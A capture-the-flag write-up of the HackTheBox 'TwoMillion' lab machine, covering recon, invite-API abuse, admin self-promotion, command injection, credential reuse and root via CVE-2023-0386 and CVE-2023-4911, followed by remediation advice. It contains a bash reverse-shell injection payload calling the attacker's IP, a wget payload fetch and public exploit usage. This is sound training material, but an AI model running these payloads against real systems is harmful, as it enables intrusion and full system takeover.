








`[JS DEOBFUSCATION]` `[API ABUSE]` `[IDOR]` `[COMMAND INJECTION]` `[CREDENTIAL REUSE]` `[CVE-2023-0386]` `[CVE-2023-4911]`

---



**Machine Write-Up — by jhaxx**

---

| Field | Value |
|---|---|
| Target IP | `10.129.229.66` |
| Hostname | `2million.htb` |
| Operating System | Ubuntu 22.04.2 LTS (kernel 5.15.70-051570-generic) |
| Difficulty | Easy |
| Attacker IP | `10.10.16.27` (tun0) |

---

## Scenario

### Objective / Scope

TwoMillion is a commemorative HackTheBox machine released to celebrate the platform's two-million user milestone. It recreates the original HTB v1 platform — the invite-only environment that defined the early community. The scope covers a single Linux host exposing SSH and an nginx-fronted web application, with the objective of chaining API abuse and command injection to gain a foothold, then escalating to root via a disclosed Linux kernel vulnerability in the OverlayFS subsystem.

---

<details>
<summary>Summary</summary>

Initial recon reveals a web application at `2million.htb` themed as the old HackTheBox v1 platform, with registration gated by an invite code. A minified JavaScript file loaded on the invite page contains a packed, obfuscated function. Beautifying the script exposes two API functions: one for generating invite instructions (`/api/v1/invite/how/to/generate`) and one for producing a code (`/api/v1/invite/generate`). The instructions endpoint returns a ROT13-encoded directive; decoding it and hitting the generation endpoint returns a base64-encoded invite code. After registering and authenticating, intercepting a VPN download request in Burp and trimming the path to `/api/v1` reveals the full route map, which exposes privileged admin endpoints to any authenticated user. A `PUT` request to `/api/v1/admin/settings/update` with `is_admin: 1` in the JSON body grants administrative privileges to the controlled account — no prior admin session required, and a prior mass assignment attempt at registration confirms the server-side control lives exclusively on this endpoint. The admin-only `/api/v1/admin/vpn/generate` endpoint passes the `username` field unsanitized into a shell command; injecting a bash reverse shell yields remote code execution as `www-data`. A plaintext `.env` file in the web root exposes database credentials that are reused as the system password for the `admin` account, enabling lateral movement via `su` and SSH. An internal mail message at `/var/mail/admin` explicitly references a recently disclosed kernel vulnerability — CVE-2023-0386 — affecting OverlayFS's FUSE implementation. Compiling and executing the public PoC across two terminal sessions grants a root shell. An alternative path via CVE-2023-4911 (Looney Tunables glibc buffer overflow) is also demonstrated.

</details>

---

## Recon

### Nmap

```bash
nmap -sC -sV -Pn 10.129.229.66
```

```
# Console Output
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|   ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_  ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack ttl 63 nginx
|_http-title: Did not follow redirect to http://2million.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

HTTP redirects to `2million.htb` — add to `/etc/hosts` before proceeding:

```bash
echo '10.129.229.66  2million.htb' | sudo tee -a /etc/hosts
```

Re-running nmap against the hostname reveals the `PHPSESSID` cookie is issued without the `HttpOnly` flag:

```
# Console Output (scan against 2million.htb)
80/tcp open  http    syn-ack ttl 63 nginx
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Hack The Box :: Penetration Testing Labs
| http-methods:
|_  Supported Methods: GET
```

**`HttpOnly` flag not set** on `PHPSESSID` — session is theoretically hijackable via XSS.

### Dirsearch

```bash
dirsearch -u http://2million.htb
```

```
# Console Output
[15:26:44] 301 -  162B  - /js       ->  http://2million.htb/js/
[15:26:50] 200 -    2KB - /404
[15:27:01] 401 -    0B  - /api
[15:27:01] 401 -    0B  - /api/v1
[15:27:02] 403 -  548B  - /assets/
[15:27:02] 301 -  162B  - /assets   ->  http://2million.htb/assets/
[15:27:08] 403 -  548B  - /controllers/
[15:27:08] 301 -  162B  - /css      ->  http://2million.htb/css/
[15:27:12] 301 -  162B  - /fonts    ->  http://2million.htb/fonts/
[15:27:14] 302 -    0B  - /home     ->  /
[15:27:15] 403 -  548B  - /images/
[15:27:15] 301 -  162B  - /images   ->  http://2million.htb/images/
[15:27:18] 403 -  548B  - /js/
[15:27:20] 200 -    4KB - /login
[15:27:20] 302 -    0B  - /logout   ->  /
[15:27:31] 200 -    4KB - /register
[15:27:43] 301 -  162B  - /views    ->  http://2million.htb/views/
```

`/api` and `/api/v1` return `401` — they exist but require authentication. VHost fuzzing returns nothing. The web root loads a themed recreation of the HackTheBox v1 platform; registration requires an invite code. Opening DevTools (F12) and monitoring the **Network** tab during page load reveals a GET request to `/js/inviteapi.min.js`.


---

## Foothold

### JavaScript Deobfuscation

The contents of `inviteapi.min.js` are a single packed `eval()` expression — a `p,a,c,k,e,d` obfuscation that compresses identifiers into single characters and reconstructs them at runtime from a keyword dictionary. Pasting the content into [beautifier.io](https://beautifier.io) unpacks it into two readable functions:

- `verifyInviteCode(code)` — POSTs a code to `/api/v1/invite/verify`
- `makeInviteCode()` — POSTs to `/api/v1/invite/how/to/generate` for generation instructions



This obfuscation provides zero security. Since the unpacking logic runs in the browser, any attacker who can read the page source can reverse it. True validation must happen server-side.

### Generating the Invite Code

```bash
curl -X POST http://2million.htb/api/v1/invite/how/to/generate | jq .
```

```json
# Console Output
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

The response body is ROT13-encoded. Alternatively, calling `makeInviteCode()` directly in the browser console surfaces the same result:


Decoding via CyberChef yields: *"In order to generate the invite code, make a POST request to `/api/v1/invite/generate`"*.



```bash
curl -X POST http://2million.htb/api/v1/invite/generate | jq .
```

```json
# Console Output
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "WlcyVFMtVFBaMEgtOTBCVUEtNVlLUEc=",
    "format": "encoded"
  }
}
```

```bash
echo 'WlcyVFMtVFBaMEgtOTBCVUEtNVlLUEc=' | base64 -d
```

```
# Console Output
ZW2TS-TPZ0H-90BUA-5YKPG
```

> **Note:** The invite code is session-specific and rotates on box reset.



After registering and authenticating we land on the HTB v1 dashboard:



### API Route Enumeration

Intercepting the "Connection Pack" download from `/home/access` in Burp reveals a request to `/api/v1/user/vpn/generate`. Trimming the path to `/api/v1` with our session cookie returns the full route map:

```bash
curl -s http://2million.htb/api/v1 -H 'Cookie: PHPSESSID=04is49j22jq7bi3tqk8a4i493v' | jq .
```

```json
# Console Output
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": { "/api/v1/admin/auth": "Check if user is admin" },
      "POST": { "/api/v1/admin/vpn/generate": "Generate VPN for specific user" },
      "PUT": { "/api/v1/admin/settings/update": "Update user settings" }
    }
  }
}
```



Three admin endpoints are disclosed to every authenticated user. Our account is not yet admin:


### Mass Assignment — Ruled Out

Before targeting the admin settings endpoint we test whether `is_admin` can be injected at registration. Appending `"is_admin": 1` to the `/api/v1/user/register` POST body in Burp has no effect:



The registration endpoint ignores unrecognised fields. The settings update endpoint is the real attack surface.

### IDOR — Self-Promotion to Admin

Probing `PUT /api/v1/admin/settings/update` reveals the required parameters through sequential error responses:


Submitting all three parameters:

```bash
curl -s -X PUT http://2million.htb/api/v1/admin/settings/update \
  -H 'Cookie: PHPSESSID=04is49j22jq7bi3tqk8a4i493v' \
  -H 'Content-Type: application/json' \
  -d '{"email": "jhaxx@2million.htb", "is_admin": 1}' | jq .
```

```json
# Console Output
{"id": 13, "username": "jhaxx", "is_admin": 1}
```

The server updates the privilege field without verifying the requesting user already holds admin rights — a missing authorisation check. Any authenticated user can self-promote.


### Command Injection — Shell as `www-data`

The `POST /api/v1/admin/vpn/generate` endpoint accepts a `username` field and generates a VPN config. We inject a subshell to confirm unsanitized execution:

```
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=04is49j22jq7bi3tqk8a4i493v
Content-Type: application/json

{"username":"test$(whoami)"}
```

```
# Console Output
Subject: C=GB, ST=London, L=London, O=testwww-data, CN=testwww-data
```

`www-data` is embedded in the certificate Subject — the `username` value is passed unsanitized to a shell command. We escalate to a reverse shell:

```
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=04is49j22jq7bi3tqk8a4i493v
Content-Type: application/json

{"username":"test$(bash -c 'exec bash -i &>/dev/tcp/10.10.16.27/4444 <&1')"}
```

```bash
nc -lvnp 4444
```

```
# Console Output
connect to [10.10.16.27] from (UNKNOWN) [10.129.229.66] 42740
www-data@2million:~/html$
```



---

## Lateral Movement

### Credential Leak in `.env`

```bash
cat /var/www/html/.env
```

```
# Console Output
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=<PASSWORD REDACTED>
```

The database password is reused as the system account password for `admin` — credential reuse across service and OS account boundaries. We switch user and establish SSH for a stable session:

```bash
su admin          # Password: <PASSWORD REDACTED>
ssh admin@2million.htb
```

```
# Console Output
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)
You have mail.
admin@2million:~$
```

```bash
cat /home/admin/user.txt
```

```
# Console Output
<FLAG REDACTED>
```

The `You have mail.` notice warrants immediate investigation.

### MySQL Enumeration

```bash
ss -tl
```

```
# Console Output
LISTEN  127.0.0.1:mysql      0.0.0.0:*
LISTEN  127.0.0.1:11211      0.0.0.0:*
```

MySQL and memcached are both listening locally. Connecting to MariaDB with the `.env` credentials:

```bash
mysql -u admin -p'<PASSWORD REDACTED>' htb_prod -e "select username, password, is_admin from users;"
```

```
# Console Output
+-----------------+--------------------------------------------------------------+----------+
| username        | password                                                     | is_admin |
+-----------------+--------------------------------------------------------------+----------+
| TRX             | <HASH REDACTED>                                              |        1 |
| TheCyberGeek    | <HASH REDACTED>                                              |        1 |
| jhaxx           | <HASH REDACTED>                                              |        0 |
| MassAsssignment | <HASH REDACTED>                                              |        1 |
+-----------------+--------------------------------------------------------------+----------+
```

All passwords are `bcrypt` hashes (`$2y$`, Hashcat mode `-m 3200`). Offline cracking was unsuccessful — moving on.

---

## Privilege Escalation

### CVE-2023-0386 — OverlayFS FUSE LPE

```bash
find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'
cat /var/mail/admin
```

```
# Console Output
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.
```

```bash
uname -a
```

```
# Console Output
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64
```

**Vulnerability**: CVE-2023-0386 abuses a flaw in the Linux OverlayFS implementation. When a file is copied up from a lower FUSE-backed layer into the OverlayFS upper layer, the kernel fails to strip SUID/SGID bits even when the file is owned by a non-root user. An unprivileged attacker can craft a FUSE filesystem presenting a SUID binary, trigger a copy-up, and obtain an owned SUID binary that executes as root. Affected: Linux \< 6.2 with user namespaces enabled (default on Ubuntu 22.04). Kernel `5.15.70` is squarely in scope.

```bash
# Attack machine
git clone https://github.com/sxlmnwb/CVE-2023-0386
cd CVE-2023-0386 && make all
tar -cjvf CVE-2023-0386.tar.bz2 CVE-2023-0386
python3 -m http.server 80
```

```bash
# Target
cd /tmp && wget http://10.10.16.27/CVE-2023-0386.tar.bz2
tar -xjvf CVE-2023-0386.tar.bz2 && cd CVE-2023-0386
```

The exploit requires two concurrent terminal sessions. Terminal 1:

```bash
./fuse ./ovlcap/lower ./gc
```

```
# Console Output
[+] len of gc: 0x3ef0
mkdir: File exists
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
```

Terminal 2, immediately after:

```bash
./exp
```

```
# Console Output
uid:33 gid:33
[+] mount success
total 8
drwxr-xr-x 1 root   root     4096 Jun 14 18:45 .
drwxr-xr-x 6 root   root     4096 Jun 14 18:45 ..
-rwsrwxrwx 1 nobody nogroup 16112 Jan  1  1970 file
[+] exploit success!
root@2million:/tmp# whoami
root
```

```bash
cat /root/root.txt
```

```
# Console Output
<FLAG REDACTED>
```

### Alternative Path — CVE-2023-4911 (Looney Tunables)


**CVE-2023-4911** is a buffer overflow in glibc's `ld.so` dynamic loader triggered via a malformed `GLIBC_TUNABLES` environment variable. Affected: glibc \< 2.38 on Fedora 37/38, Ubuntu 22.04/23.04, Debian 12/13. Verify the installed glibc version:

```bash
ldd --version
```

```
# Console Output
ldd (Ubuntu GLIBC 2.35-0ubuntu3.1) 2.35
```

Confirm exploitability:

```bash
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" \
    "Z=`printf '%08192x' 1`" /usr/bin/su --help
```

```
# Console Output
Segmentation fault (core dumped)
```

The segfault confirms `glibc 2.35-0ubuntu3.1` is vulnerable. Run the PoC:

```bash
python3 gnu-acme.py
```

```
# Console Output
      $$$ glibc ld.so (CVE-2023-4911) exploit $$$
            -- by blasty <peter@haxx.in> --

[i] libc = /lib/x86_64-linux-gnu/libc.so.6
[i] suid target = /usr/bin/su, suid_args = ['--help']
[i] ld.so = /lib64/ld-linux-x86-64.so.2
[i] ld.so build id = 61ef896a699bb1c2e4e231642b2e1688b2f1a61e
[i] __libc_start_main = 0x29dc0
[i] using hax path b'"' at offset -20
[i] wrote patched libc.so.6
[i] using stack addr 0x7ffe1010100c
.................# ** ohh... looks like we got a shell? **

id
uid=0(root) gid=1000(admin) groups=1000(admin)
```

The script brute-forces stack addresses to defeat ASLR (each dot is one blind attempt), patches a copy of `libc.so.6` with SUID shellcode, and exploits the overflow in `ld.so` under `/usr/bin/su`'s SUID root context. Each failed attempt generates a segfault — this path leaves a significant trail in `/var/log/kern.log`. CVE-2023-0386 is operationally quieter and is the intended path (signposted by the mail hint).

---

## Remediation

- **Unauthenticated invite code generation API:** Require authentication or enforce server-side rate-limiting and CAPTCHA on `/api/v1/invite/generate`. Client-side JavaScript obfuscation is not a security control and must never be treated as one.
- **API route map disclosure:** Restrict access to `/api/v1` route enumeration to admin sessions only. Admin endpoint paths must not be discoverable by regular authenticated users at runtime.
- **Missing authorisation on settings update (IDOR):** Add a server-side check on `PUT /api/v1/admin/settings/update` that validates the requesting principal already holds `is_admin: 1` before processing the body. Authentication and authorisation are distinct controls — passing session validation is not sufficient.
- **Command injection in VPN generation endpoint:** Sanitize the `username` parameter before interpolating it into any shell command. Use parameterized execution (pass arguments as an array, not a concatenated string) or restrict input to an alphanumeric allowlist.
- **Plaintext credentials in `.env` / credential reuse:** Exclude `.env` from the web root via nginx (`location ~ /\. { deny all; }`) or relocate it outside the document root. Enforce password uniqueness across database and system accounts; rotate the exposed credential immediately.
- **Unpatched kernel (CVE-2023-0386 / CVE-2023-4911):** Apply kernel updates to \>= 6.2 and update glibc to \>= 2.38. As a short-term mitigation restrict user namespaces (`sysctl -w kernel.unprivileged_userns_clone=0`) until the patch can be applied.
